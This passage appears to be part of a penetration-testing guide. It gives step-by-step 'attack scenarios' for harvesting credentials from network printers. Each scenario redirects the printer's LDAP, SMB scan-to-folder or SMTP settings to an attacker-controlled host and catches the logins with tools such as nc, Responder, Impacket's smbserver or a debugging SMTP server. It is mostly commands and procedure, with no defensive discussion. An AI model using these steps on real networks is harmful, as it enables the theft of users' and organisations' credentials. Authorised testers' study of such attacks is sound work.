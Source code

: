 ## Attack Scenarios

### Scenario 1: Basic LDAP Credential Capture
```bash
# 1. Discover printer
nmap -p 80,443 192.168.1.0/24

# 2. Access web interface
# Navigate to http://printer_ip

# 3. Find LDAP settings
# Usually under Network → Security → LDAP

# 4. Set up listener
nc -lvp 389

# 5. Change LDAP server to attacker IP
# Save configuration

# 6. Wait for user to use scan-to-email or similar function
# Credentials will be captured
```

### Scenario 2: SMB Share Credential Harvesting
```bash
# 1. Access printer web interface
# 2. Navigate to scan-to-folder settings
# 3. Set up SMB share on attacker machine
# 4. Configure printer to use attacker's SMB share
# 5. Capture NTLM hashes when users scan documents

# Set up SMB server with Responder
responder -I eth0 -wrf

# Or use Impacket's smbserver
smbserver.py share /tmp -smb2support
```

### Scenario 3: Email Server Credential Capture
```bash
# 1. Access printer email settings
# 2. Configure SMTP server to attacker's server
# 3. Set up fake SMTP server
# 4. Capture credentials when users use scan-to-email

# Simple SMTP server for credential capture
python -m smtpd -n -c DebuggingServer localhost:25
```

## Advanced Techniques
